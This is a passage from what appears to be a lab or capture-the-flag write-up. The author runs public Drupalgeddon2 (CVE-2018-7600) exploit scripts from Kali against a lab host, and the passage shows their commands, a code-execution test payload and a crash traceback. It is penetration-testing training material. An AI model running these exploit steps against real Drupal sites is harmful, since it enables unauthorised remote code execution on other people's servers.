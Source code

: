     
    root@kali# python 44448.py 
    ################################################################
    # Proof-Of-Concept for CVE-2018-7600
    # by Vitalii Rudnykh
    # Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
    # https://github.com/a2u/CVE-2018-7600
    ################################################################
    Provided only for educational or information purposes
    
    Enter target url (example: https://domain.ltd/): 'http://10.10.10.9/'
    Not exploitable
    

#### Ruby Script

However, on [reading about
Drupalgeddon2](https://unit42.paloaltonetworks.com/unit42-exploit-wild-
drupalgeddon2-analysis-cve-2018-7600/#pu3blic-exploits), it seems this is
testing the vulnerability on a Drupal 8 specific path.

I’ll try the `ruby` script, `searchsploit -m exploits/php/webapps/44449.rb`.
Now I’ll run it, and it returns the help, and a warning:

    
    
    root@kali# ruby 44449.rb 
    ruby: warning: shebang line ending with \r may cause problems
    Usage: ruby drupalggedon2.rb <target>
           ruby drupalgeddon2.rb https://example.com
    

I’ll fix the warning about `\r` with `dos2unix`:

    
    
    root@kali# dos2unix 44449.rb 
    dos2unix: converting file 44449.rb to Unix format...
    root@kali# ruby 44449.rb 
    Usage: ruby drupalggedon2.rb <target>
           ruby drupalgeddon2.rb https://example.com
    

Now I’ll run it against my target, and it crashes:

    
    
    root@kali# ruby 44449.rb http://10.10.10.9/
    [*] --==[::#Drupalggedon2::]==--
    --------------------------------------------------------------------------------
    [*] Target : http://10.10.10.9/
    --------------------------------------------------------------------------------
    [!] MISSING: http://10.10.10.9/CHANGELOG.txt (405)
    [!] MISSING: http://10.10.10.9/core/CHANGELOG.txt (404)
    [+] Found  : http://10.10.10.9/includes/bootstrap.inc (403)
    [+] Found  : http://10.10.10.9/core/includes/bootstrap.inc (403)
    [+] Drupal?: 8.x
    --------------------------------------------------------------------------------
    [*] Testing: Code Execution
    [*] Payload: echo FKIUAUXN
    Traceback (most recent call last):                     
            2: from 44449.rb:207:in `<main>'
            1: from /usr/lib/ruby/vendor_ruby/json/common.rb:156:in `parse'